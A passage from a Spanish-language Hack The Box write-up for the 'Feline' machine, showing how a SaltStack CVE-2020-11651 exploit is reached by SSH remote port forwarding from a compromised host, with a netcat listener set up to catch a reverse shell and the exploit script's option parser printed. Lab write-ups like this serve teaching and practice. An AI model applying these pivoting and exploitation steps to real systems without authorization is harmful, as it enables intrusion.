 * [CVE-2020-11651 - Github/jasperla](https://github.com/jasperla/CVE-2020-11651-poc).
* [CVE-2020-11651 - Github/dozernz](https://github.com/dozernz/cve-2020-11651).

Entonces lo primero que debemos hacer es hacer un `Remote Port Forwarding` de los dos puertos para ver cuál de los dos es vulnerable (o ninguno) :P (Pero pues sí, hay uno vulnerable porque o si no no hubiera escrito esto :P:P)

En nuestra máquina validamos que tenemos sobre ese puerto:

```bash
–» lsof -i:4505
✗ ••• bAd •••· ~/sec/htb/feline/exploit
–» 
```

Hacemos el forwarding:

```bash
tomcat@VirusBucket:~$ ssh -R 4505:127.0.0.1:4505 root@10.10.14.152 -p 177
```

Y volvemos a validar a ver si ya tenemos el servicio en nuestra maquina:

```bash
–» lsof -i:4505
COMMAND    PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
sshd    164674 root    9u  IPv6 839839      0t0  TCP localhost:4505 (LISTEN)
sshd    164674 root   10u  IPv4 839840      0t0  TCP localhost:4505 (LISTEN)
```

La ejecución de los exploits también me llevo un poco entenderlo y básicamente fue por no leer. En el GitHub de cada uno tienen: `There's no interactivity implemented, youll need to catch a reverse shell`. Asi que si o si debemos obtener una shell :P

Pongámonos en escucha por el puerto `4434` de una :P

```bash
–» nc -nlvp 4434
listening on [any] 4434 ...
```

Entonces, empecemos con el de [`jasperla`](https://github.com/jasperla/CVE-2020-11651-poc) a ver si obtenemos éxito con este, su ejecución es sencilla e intuitiva, además en el código viene el puerto `4506` por defecto, pero pues probemos que pasa con el `4505`.

```py
def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()
```
